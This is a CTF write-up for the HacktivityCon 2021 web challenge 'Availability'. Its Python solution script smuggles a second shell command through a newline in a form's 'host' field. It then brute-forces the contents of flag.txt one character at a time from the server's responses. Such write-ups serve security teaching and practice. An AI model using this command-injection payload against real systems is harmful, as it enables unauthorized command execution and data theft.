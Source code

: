 ```yaml
---
name: Availability (2021)
event: HacktivityCon CTF 2021
category: Web
description: Writeup for Availability (Web) - HacktivityCon CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Availability

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/niPj8jYahV0/0.jpg)](https://youtu.be/niPj8jYahV0?t=5074s "HacktivityCon 2021: Availability")

## Challenge Description

> My schol was trying to teach people about the CIA triad so they made all these dumb example applications... as if they know anything about information security.
>
> They said they fixed the bug from the last app, but they also said they knew they went overboard with the filtered characters, so they loosened things up a bit. Can you hack it?

## Solution

```py
import requests
import string

flag = "flag."
url = "http://challenge.ctf.games:30669/"

# Each time a successful login is seen, restart loop
restart = True

while restart:
    restart = False
    # Loop through chars
    for i in string.ascii_lowercase + string.digits:
        payload = flag + i
        post_data = {'host': '127.0.0.1\x0Agrep ' + payload + ' flag.txt'}
        r = requests.post(url, data=post_data)
        # Correct char results in "successful password"
        if 'Success' in r.text:
            print(payload.replace('.', '{'))
            restart = True
            flag = payload
            # Exit if we have flag{32-hex
            if len(flag) == 37:
                print('\nFlag: ' + flag.replace('.', '{') + '}')
                exit(0)
            break
```
